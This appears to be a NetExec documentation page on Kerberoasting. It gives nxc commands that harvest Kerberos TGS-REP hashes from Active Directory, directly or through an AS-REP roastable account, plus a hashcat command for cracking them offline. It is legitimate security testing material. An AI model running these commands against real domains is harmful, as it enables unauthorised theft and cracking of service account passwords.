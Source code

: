 ```yaml
---
description: Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting
---
```


# Kerberoasting

You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain, or an AS-REP roastable account
{% endhint %}

```bash
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
# Kerberoasting via AS-REP Roasting

> You can also perform Kerberoasting by leveraging an AS-REP roastable account that does not require pre-authentication. This is possible by combining `--no-preauth` and `--kerberoasting`.

```bash
nxc ldap 192.168.0.104 -u harry -p '' --no-preauth kerberoastable.list --kerberoasting output.txt
```

* `-u`: AS-REP roastable user (no pre-auth required).
* `--no-preauth`: Single user or file containing list of users to target with Kerberoasting.

{% hint style="info" %}
This technique can be used even if the AS-REP roastable user has an empty password, provided you can authenticate or have valid TGT access.
{% endhint %}

### Cracking with hashcat

```bash
hashcat -m13100 output.txt wordlist.txt
```

### Example

Active machine is a good example to test **Kerberoasting** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/148" %}

### Useful ressources:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}

{% embed url="https://www.semperis.com/blog/new-attack-paths-as-requested-sts/" %}
